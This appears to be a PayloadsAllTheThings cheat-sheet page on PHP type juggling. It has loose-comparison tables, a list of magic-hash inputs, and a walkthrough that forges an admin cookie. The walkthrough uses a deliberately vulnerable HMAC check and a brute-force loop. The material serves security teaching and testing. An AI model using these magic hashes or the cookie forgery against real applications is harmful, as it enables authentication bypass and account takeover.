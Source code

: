 # Type Juggling

> PHP is a loosely typed language, which means it tries to predict the programmer's intent and automatically converts variables to different types whenever it seems necessary. For example, a string containing only numbers can be treated as an integer or a float. However, this automatic conversion (or type juggling) can lead to unexpected results, especially when comparing variables using the '==' operator, which only checks for value equality (loose comparison), not type and value equality (strict comparison).


## Summary

* [Loose Comparison](#loose-comparison)
	* [True statements](#true-statements)
	* [NULL statements](#null-statements)
	* [Loose Comparison](#loose-comparison)
* [Magic Hashes](#magic-hashes)
* [Methodology](#methodology)
* [Labs](#labs)
* [References](#references)


## Loose Comparison

> PHP type juggling vulnerabilities arise when loose comparison (== or !=) is employed instead of strict comparison (=== or !==) in an area where the attacker can control one of the variables being compared. This vulnerability can result in the application returning an unintended answer to the true or false statement, and can lead to severe authorization and/or authentication bugs.

- **Loose** comparison: using `== or !=` : both variables have "the same value".
- **Strict** comparison: using `=== or !==` : both variables have "the same type and the same value".

### True statements

| Statement                         | Output |
| --------------------------------- |:---------------:|
| `'0010e2'   == '1e3'`             | true |
| `'0xABCdef' == ' 0xABCdef'`       | true (PHP 5.0) / false (PHP 7.0) |
| `'0xABCdef' == '     0xABCdef'`   | true (PHP 5.0) / false (PHP 7.0) |
| `'0x01'     == 1`       		    | true (PHP 5.0) / false (PHP 7.0) |
| `'0x1234Ab' == '1193131'`         | true (PHP 5.0) / false (PHP 7.0) |
| `'123'  == 123`                   | true |
| `'123a' == 123`                   | true |
| `'abc'  == 0`                     | true |
| `'' == 0 == false == NULL`        | true |
| `'' == 0`                         | true |
| `0  == false `                    | true |
| `false == NULL`                   | true |
| `NULL == ''`                      | true |

> PHP8 won't try to cast string into numbers anymore, thanks to the Saner string to number comparisons RFC, meaning that collision with hashes starting with 0e and the likes are finally a thing of the past! The Consistent type errors for internal functions RFC will prevent things like `0 == strcmp($_GET['username'], $password)` bypasses, since strcmp won't return null and spit a warning any longer, but will throw a proper exception instead. 

![LooseTypeComparison](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/Images/table_representing_behavior_of_PHP_with_loose_type_comparisons.png?raw=true)

Loose Type Comparisons occurs in many languages:

* [MariaDB](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mariadb)
* [MySQL](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mysql)
* [NodeJS](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/NodeJS)
* [PHP](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/PHP)
* [Perl](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Perl)
* [Postgres](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Postgres)
* [Python](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Python)
* [SQLite](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/SQLite/2.6.0)


### NULL statements

| Function | Statement                  | Output |
| -------- | -------------------------- |:---------------:|
| sha1     | `var_dump(sha1([]));`      | NULL |
| md5      | `var_dump(md5([]));`       | NULL |


## Magic Hashes

>  Magic hashes arise due to a quirk in PHP's type juggling, when comparing string hashes to integers. If a string hash starts with "0e" followed by only numbers, PHP interprets this as scientific notation and the hash is treated as a float in comparison operations. 

| Hash | "Magic" Number / String    | Magic Hash                                    | Found By / Description      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD4  | gH0nAdHk                   | 0e096229559581069251163783434175              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD4  | IiF+hTai                   | 00e90130237707355082822449868597              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                    | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905               | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017                | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## Methodology

The vulnerability in the following code lies in the use of a loose comparison (!=) to validate the $cookie['hmac'] against the calculated `$hash`.

```php
function validate_cookie($cookie,$key){
	$hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['expiration'], $key);
	if($cookie['hmac'] != $hash){ // loose comparison
		return false;
		
	}
	else{
		echo "Well done";
	}
}
```

In this case, if an attacker can control the $cookie['hmac'] value and set it to a string like "0", and somehow manipulate the hash_hmac function to return a hash that starts with "0e" followed only by numbers (which is interpreted as zero), the condition $cookie['hmac'] != $hash would evaluate to false, effectively bypassing the HMAC check.

We have control over 3 elements in the cookie:
- `$username` - username you are targeting, probably "admin"
- `$expiration` - a UNIX timestamp, must be in the future
- `$hmac` - the provided hash, "0"

The exploitation phase is the following:
1. Prepare a malicious cookie: The attacker prepares a cookie with $username set to the user they wish to impersonate (for example, "admin"), `$expiration` set to a future UNIX timestamp, and $hmac set to "0".
2. Brute force the `$expiration` value: The attacker then brute forces different `$expiration` values until the hash_hmac function generates a hash that starts with "0e" and is followed only by numbers. This is a computationally intensive process and might not be feasible depending on the system setup. However, if successful, this step would generate a "zero-like" hash.
	```php
	// docker run -it --rm -v /tmp/test:/usr/src/myapp -w /usr/src/myapp php:8.3.0alpha1-cli-buster php exp.php
	for($i=1424869663; $i < 1835970773; $i++ ){
		$out = hash_hmac('md5', 'admin|'.$i, '');
		if(str_starts_with($out, '0e' )){
			if($out == 0){
				echo "$i - ".$out;
				break;
			}
		}
	}
	?>
	```
3. Update the cookie data with the value from the bruteforce: `1539805986 - 0e772967136366835494939987377058`
	```php
	$cookie = [
		'username' => 'admin',
		'expiration' => 1539805986,
		'hmac' => '0'
	];
	```
4. In this case we assumed the key was a null string : `$key = '';`


## Labs

* [Root Me - PHP - type juggling](https://www.root-me.org/en/Challenges/Web-Server/PHP-type-juggling)


## References

- [(Super) Magic Hashes - myst404 (@myst404_) - October 7, 2019](https://offsec.almond.consulting/super-magic-hash.html)
- [Magic Hashes - Robert Hansen - May 11, 2015](http://web.archive.org/web/20160722013412/https://www.whitehatsec.com/blog/magic-hashes/)
- [Magic hashes – PHP hash "collisions" - Michal Špaček (@spaze) - May 6, 2015](https://github.com/spaze/hashes)
- [PHP Magic Tricks: Type Juggling - Chris Smith (@chrismsnz) - August 18, 2020](http://web.archive.org/web/20200818131633/https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
- [Writing Exploits For Exotic Bug Classes: PHP Type Juggling - Tyler Borland (TurboBorland) - August 17, 2013](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)